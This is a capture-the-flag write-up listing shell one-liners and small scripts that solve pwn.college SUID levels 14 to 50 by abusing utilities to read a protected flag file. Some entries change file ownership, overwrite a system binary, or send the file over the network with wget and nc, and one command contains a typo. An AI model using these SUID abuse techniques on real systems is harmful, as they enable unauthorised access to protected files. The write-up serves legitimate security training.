 # PWN College BabySUID

## lvl 14

~~~sh
base32 /flag | base32 -d
~~~

## lvl 15

~~~sh
base64 /flag | base64 -d
~~~

## lvl 16

~~~sh
split -l 1 /flag
~~~

## lvl 17

~~~sh
gzip -kcv /flag | gzip -dcv
~~~

## lvl 18

~~~sh
bzip2 -cvk /flag | bzip2 -dcv
~~~

## lvl 19

~~~sh
zip flag.zip /flag
cat flag.zip
~~~

## lvl 20 

~~~sh
tar -cvf flag.tar /flag
cat flag.tar
~~~

## lvl 21

~~~sh
ar -r flag.ar /flag
cat flag.ar
~~~

## lvl 22

~~~sh
ls flag | cpio -ov > ~/flag
cat ~/flag
~~~

## lvl 23

~~~sh
genisoimage -sort /flag
~~~

## lvl 24

~~~sh
env cat /flag 
~~~

## lvl 25

~~~sh
find / -name flag -exec grep "pwn.college" {} \;
~~~

## lvl 26

~~~sh
# create a file called makefile and put inside:
# and just run make

main: /flag
    cat /flag
~~~

## lvl 27

~~~sh
nice cat /flag
~~~

## lvl 28

~~~sh
timeout 5s cat /flag
~~~

## lvl 29

~~~sh
stdbuf -oL cat /flag
~~~

## lvl 30 

~~~sh
setarch --addr-no-randomize cat /flag
~~~

## lvl 31 

~~~sh
watch -x cat /flag
~~~

## lvl 32

~~~sh
socat -u FILE:"/flag" TCP-LISTEN:5778,reuseaddr
socat -u TCP:localhost:5778 STDOUT > ~/flag
cat flag 
~~~

## lvl 33

~~~sh
whiptail --title "Opening file" --textbox /flag 25 80
~~~

## lvl 34

~~~sh
awk "{print}" /flag
~~~

## lvl 35

~~~sh
sed "" /flag
~~~

## lvl 36

~~~sh
ed /flag 
p (to print the text)
~~~

## lvl 37

~~~sh
chown hacker /flag
cat /flag
~~~

## lvl 38

~~~sh
chmod +r /flag
cat /flag
~~~

## lvl 39

~~~sh
cp -i --no-preserve=mode,ownership /flag /home/hacker/flag
~~~

## lvl 40

~~~sh
mv /usr/bin/cat /usr/bin/mv
mv /flag
~~~

## lvl 41
~~~pl
#!/usr/bin/perl
use warnings;
use strict;

my $filename = '/flag';

open(FH, '<', $filename) or die $!;

while(<FH>){
print $_;
}

close(FH);
~~~

## lvl 42
~~~py
#!/usr/bin/python
file = open("/flag","r")
print(file.read())
~~~

## lvl 43

~~~rb
#!/usr/bin/ruby
file = File.open("/flag").read
print file
~~~

## lvl 44

~~~sh
#!/usr/bin/bash -p
file="/flag"
printf "%s" "$(<$file)" oppure cat /flag
~~~

## lvl 45

~~~sh
data -f /flag
~~~

## lvl 46

~~~sh
dmesg -F /flag
~~~

## lvl 47

~~~sh
wc --files0-from /flag
~~~

## lvl 48
~~~sh
gcc @/flag # to give flags via a file
~~~

## lvl 49
~~~sh
as @/flag
~~~

## lvl 50
~~~sh
wget localhost:5000 --post-file=/flag # to send file via POST
nc -l localhost 5000 # listening server
~~~